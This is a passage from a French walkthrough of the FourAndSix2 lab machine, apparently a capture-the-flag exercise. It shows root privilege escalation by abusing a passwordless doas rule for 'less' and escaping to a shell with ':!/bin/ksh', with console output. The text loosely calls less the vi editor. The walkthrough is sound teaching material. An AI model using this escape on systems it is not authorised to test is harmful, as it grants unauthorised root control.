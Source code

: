 Le fichier de configuration ```/etc/doas.conf``` se révèle être particulièrement intéressant. Sur les systèmes BSD comme FourAndSix, [doas](https://man.openbsd.org/doas.conf) est une alternative jugée plus simple et plus sécurisée que son alter-ego [sudo](https://en.wikipedia.org/wiki/Sudo). Ce fichier permet d'accorder des droits aux utilisateurs, afin de lancer des commandes en tant qu'un autre utilisateur (généralement root).

```console
fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)

fourandsix2$ cat /etc/doas.conf
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root
```

La première ligne du fichier ```doas.conf``` signifie que l'utilisateur ```user``` peut exécuter la commande ```doas /usr/bin/less /var/log/authlog``` en tant que root, et de visualiser le contenu du fichier ```authlog``` dans l'éditeur vi.

Ça tombe bien ! L'article [_Escaping Restricted Linux Shells_](https://www.sans.org/blog/escaping-restricted-linux-shells/) posté sur le site du SANS Institute par Doug Stilwell donne une astuce très précieuse : il est possible d'obtenir un shell à partir d'un éditeur de texte tel que vi ou vim. Ça tombe bien, vi est l'un des seuls binaires que l'on peut appeler sur notre shell restreint. Une fois à l'intérieur de l'éditeur, la commande ```:!/bin/ksh``` nous permet d'obtenir un shell root digne de ce nom !

```console
fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)

fourandsix2$ doas /usr/bin/less /var/log/authlog 

Dec  1 19:44:23 fourandsix2 sshd[6343]: Failed password for root from 192.168.56.102 port 36456 ssh2
Dec  1 19:44:23 fourandsix2 sshd[53394]: Failed password for root from 192.168.56.102 port 36448 ssh2
Dec  1 19:44:24 fourandsix2 sshd[9463]: Failed password for root from 192.168.56.102 port 36460 ssh2
Dec  1 19:44:24 fourandsix2 sshd[74747]: Failed password for root from 192.168.56.102 port 36458 ssh2
Dec  1 19:44:24 fourandsix2 sshd[94647]: Failed password for root from 192.168.56.102 port 36440 ssh2
Dec  1 19:44:24 fourandsix2 sshd[78045]: Failed password for root from 192.168.56.102 port 36444 ssh2
Dec  1 19:44:24 fourandsix2 sshd[6343]: Failed password for root from 192.168.56.102 port 36456 ssh2
Dec  1 19:44:24 fourandsix2 sshd[53394]: Failed password for root from 192.168.56.102 port 36448 ssh2
Dec  1 19:44:24 fourandsix2 sshd[51957]: Failed password for root from 192.168.56.102 port 36432 ssh2
Dec  1 19:44:24 fourandsix2 sshd[1361]: Failed password for root from 192.168.56.102 port 36434 ssh2
Dec  1 19:44:24 fourandsix2 sshd[66838]: Failed password for root from 192.168.56.102 port 36454 ssh2
Dec  1 19:44:24 fourandsix2 sshd[17627]: Failed password for root from 192.168.56.102 port 36450 ssh2

:!/bin/ksh

fourandsix2#

fourandsix2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```
